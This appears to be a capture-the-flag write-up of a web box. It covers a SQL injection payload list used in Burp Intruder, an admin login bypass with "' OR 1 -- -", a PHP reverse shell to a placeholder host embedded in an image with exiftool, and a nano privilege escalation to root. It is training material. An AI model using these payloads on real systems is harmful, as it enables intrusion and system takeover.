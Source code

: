﻿![Pasted image 20241007144603.png](../../IMAGES/Pasted%20image%2020241007144603.png)
# Enumeration

```ad-info
**OPEN PORTS**:
**FUZZING FOR PORT 80**:

```

The moment I went to `/gallery`, I realized it was a login page, I tried some XSS and when I sent the request, this was the output:

![Pasted image 20241007150803.png](../../IMAGES/Pasted%20image%2020241007150803.png)
Seems like this login page is vulnerable to [SQLI](../../Bug%20Bounty/Vulnerabilities/SERVER%20SIDE%20VULNERABILITIES/INJECTIONS/SQLI/SQL%20INJECTION%20(SQLI).md)
So, let's try to exploit it:

For this, I am using burp's intruder with the following payload list:

```ad-summary
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*¦*/ 
+		
||		
%		
@variable	
@@variable	
AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
-2
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+
1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --
-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --
-1 UNION SELECT 1 INTO @,@
-1 UNION SELECT 1 INTO @,@,@
1 AND (SELECT * FROM Users) = 1	
' AND MID(VERSION(),1,1) = '5';
' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --
,(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--
```

Also, as seen in the request, it must be URL encoded, so, I also put this in the payload processing:

![Pasted image 20241007152753.png](../../IMAGES/Pasted%20image%2020241007152753.png)

Let's launch the attack:
![Pasted image 20241007152809.png](../../IMAGES/Pasted%20image%2020241007152809.png)

![Pasted image 20241007152818.png](../../IMAGES/Pasted%20image%2020241007152818.png)
Seems like the attack worked for that payload, if we decode it, it is this payload:

`' OR 1 -- -`

And we got in as admin:

![Pasted image 20241007153027.png](../../IMAGES/Pasted%20image%2020241007153027.png)

If we look around, we find an image upload section:

![Pasted image 20241007153644.png](../../IMAGES/Pasted%20image%2020241007153644.png)

We can refer to our [FILE UPLOAD](../../Bug%20Bounty/Vulnerabilities/SERVER%20SIDE%20VULNERABILITIES/FILE%20INCLUSION%20VULNERABILITIES/FILE%20UPLOAD.md) note, when we try to upload a file, we can only upload images, `.jpg, .png` so, let's use `exiftool` to embed a reverse shell between an image:

```ad-note
```php-template
exiftool -Comment="<?php echo shell_exec('/bin/bash -c \'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/YOUR_PORT 0>&1\''); ?>" cat.jpg -o shell.php
```

As we can see, file is an jpeg now:

![Pasted image 20241007160746.png](../../IMAGES/Pasted%20image%2020241007160746.png)

Let's try to upload it now:

![Pasted image 20241007161320.png](../../IMAGES/Pasted%20image%2020241007161320.png)
![Pasted image 20241007161325.png](../../IMAGES/Pasted%20image%2020241007161325.png)
![Pasted image 20241007161334.png](../../IMAGES/Pasted%20image%2020241007161334.png)
And we got a shell!

Let's proceed with PRIVILEGE ESCALATION:

First, let's spawn a [stable shell](../../Commands/Shell%20Tricks/STABLE%20SHELL.md), once we've done this, it's time to begin with our privilege escalation:

For the privilege escalation, I used [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS), when I looked at linpeas output, I found this:
![Pasted image 20241007163005.png](../../IMAGES/Pasted%20image%2020241007163005.png)
seems like the password for user mike, let's su to mike:

![Pasted image 20241007163600.png](../../IMAGES/Pasted%20image%2020241007163600.png)
Now we are in as mike, let's look at mike's privileges:

![Pasted image 20241007163724.png](../../IMAGES/Pasted%20image%2020241007163724.png)
We found a rootkit.sh script, let's look at it:

![Pasted image 20241007163807.png](../../IMAGES/Pasted%20image%2020241007163807.png)
As shown in the read function of the script, it uses nano, if we go to gtfobins, this is shown:
![Pasted image 20241007164109.png](../../IMAGES/Pasted%20image%2020241007164109.png)

If we execute the script as the root user, this happens:
![Pasted image 20241007165053.png](../../IMAGES/Pasted%20image%2020241007165053.png)

Let's enter the read option:
![Pasted image 20241007164217.png](../../IMAGES/Pasted%20image%2020241007164217.png)
Next, enter `ctrl+r` and `ctrl+x`, then the following command:

`reset; sh 1>&0 2>&0`

![Pasted image 20241007165137.png](../../IMAGES/Pasted%20image%2020241007165137.png)

![Pasted image 20241007165154.png](../../IMAGES/Pasted%20image%2020241007165154.png)

And just like that, we got root access!

